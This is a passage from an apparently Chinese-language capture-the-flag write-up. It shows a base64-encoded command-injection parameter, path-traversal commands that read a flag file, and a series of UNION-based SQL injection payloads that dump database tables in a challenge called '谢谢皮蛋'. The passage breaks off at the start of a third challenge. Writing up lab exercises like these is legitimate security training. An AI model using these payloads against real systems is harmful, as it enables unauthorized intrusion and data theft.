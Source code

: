 我们进行传参

```
cmd=bHM=  //ls
key=N2FiZThiMjRiZDAxMzc0NDZmZDMzNmMyMjk4ZmNjYTA=
```

![image-20240930215101248](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409302151360.png)



成功，然后就是找flag文件位置

```
ls ../../../
```

最后就是输出flag

```
cat ../../../flag
```

具体操作跟上面一样



### 谢谢皮蛋

sql注入的题，源码给了提示，访问/hint.php，有sql注入语句

![image-20240930215841674](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409302158759.png)

我们进行sql注入

```
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

![image-20240930215859846](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409302158871.png)

```
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='Fl4g'#
```

![image-20240930215927084](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409302159107.png)

```
-1 union select 1,group_concat(id,des,value) from Fl4g#
```

![image-20240930220043490](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409302200568.png)



### PangBai 过家家（1）

我们打开页面，提示头部存在一些东西
